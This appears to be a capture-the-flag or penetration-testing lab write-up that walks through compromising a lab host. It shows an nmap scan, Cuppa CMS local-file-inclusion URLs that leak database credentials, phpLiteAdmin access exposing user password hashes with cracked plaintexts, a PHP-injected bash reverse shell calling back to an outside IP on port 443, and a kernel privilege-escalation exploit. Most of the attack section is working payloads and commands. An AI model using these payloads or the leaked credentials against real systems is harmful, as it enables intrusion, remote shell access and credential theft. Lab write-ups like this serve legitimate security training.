 ## Nmap

```bash
nmap -Pn 10.11.1.116

Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-22 05:22 EST
Nmap scan report for 10.11.1.116
Host is up (0.044s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
143/tcp open  imap

Nmap done: 1 IP address (1 host up) scanned in 1.85 seconds
```

## Foothold

- Dirbuster
http://10.11.1.116/administrator/ -- Cuppa CMS
http://10.11.1.116/db/

```bash
searchsploit cuppa cms # LFI/RFI potential
searchsploit cuppa cms --id 25971 -m
```

http://10.11.1.116/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd  -- LFI /etc/passwd

NO RFI

http://10.11.1.116/administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php -- config encoded

```php
<?php 
        class Configuration{
                public $host = "localhost";
                public $db = "cuppa";
                public $user = "root";
                public $password = "99bbVDdorGzfZJun";
                public $table_prefix = "cu_";
                public $administrator_template = "default";
                public $list_limit = 25;
                public $token = "OBqIPqlFWf3X";
                public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";
                public $upload_default_path = "media/uploadsFiles";
                public $maximum_file_size = "5242880";
                public $secure_login = 0;
                public $secure_login_value = "";
                public $secure_login_redirect = "";
        } 
?>
```

### Second thought

```bash
searchsploit phpLiteAdmin --id 24044 -m # phpLiteAdmin vuln
```

http://10.11.1.116/administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../../../../../../etc/apache2/apache2.conf -- apache2 config, useless


http://10.11.1.116/administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../../../../../../../../../var/www/html/db/phpliteadmin.php
--> Leak phpadmin.php (pipe to base64) --> contains the config for itself

http://10.11.1.116/db/phpliteadmin.php
`admin` # password

Leaked data:

```csv
"Name","Password"
"aaron","5978a63b4654c73c60fa24f836386d87", italia99
"accasia","a1420fc5ab116437368889400c4bb8e1", WindRunner
"bethanyjoy02","6c0f3fde58158e4c1f4cedb29c7ef4c1", ???
"deanna","f463f63616cb3f1e81ce46b39f882fd5", marianna
"jpotter","9b38e2b1e8b12f426b0d208a7ab6cb98", vipsu
```

1. Create database named: hack.php
2. Create table inside with default value:
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.119.130/443 0>&1'"); ?>
```
3. phpLiteAdmin tells you where to look for the page:

http://10.11.1.116/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../usr/local/databases/hack.php

## PrivEsc

- Linpeas.sh suggest CVE-2021-4034, but I ran into problems
-  Linux Kernel < 4.4.0-116 on exploit-db shows a C file

https://www.exploit-db.com/exploits/44298
```bash
gcc --static pe.c -o pe
# copy to machine
./pe # enjoy root shell
```